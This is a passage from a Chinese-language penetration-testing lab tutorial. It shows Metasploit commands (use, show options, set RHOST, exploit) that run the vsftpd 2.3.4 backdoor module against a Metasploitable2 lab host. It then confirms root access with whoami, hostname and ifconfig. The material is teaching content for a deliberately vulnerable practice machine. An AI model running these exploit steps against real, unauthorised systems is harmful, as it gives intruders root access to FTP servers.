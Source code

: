 ```
# 使用 use 命令，使用相应模块功能
use exploit/unix/ftp/vsftpd_234_backdoor

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007111526.png-wm)

接着再使用 `show` 命令，查看该模块所必填的参数：

```
# 使用 show 命令，查看相应的参数设置
show options
```
再下一步，我们继续使用 `set` 命令，设置必要的参数，如所要渗透的目标主机： 

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007177068.png-wm)

```
# set 命令，设置相应要渗透的目标主机参数
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007390482.png-wm)

最后一步，使用 `exploit` 对目标主机进行渗透攻击：

```
# 输入 exploit 命令，进行攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007725366.png-wm)

# 四、验证渗透攻击

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：


```
# 验证是否成功，查看当前的用户名
whoami

# 由 hostname 查看主机的名字
hostname

# 由 ifconfig 命令查看渗透主机的 ip 地址
ifconfig
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007822901.png-wm)

由图可知，在输入命令 `whoami`后，输出的是 `root`，输入命令 `hostname`后，输出的是 `Metasploitable2`，以及由命令 `ifconfig` 可知道，所登录的目标渗透主机的 ip 地址为 `192.168.122.102`,由显示数据看出，所进行的渗透测试已经成功。
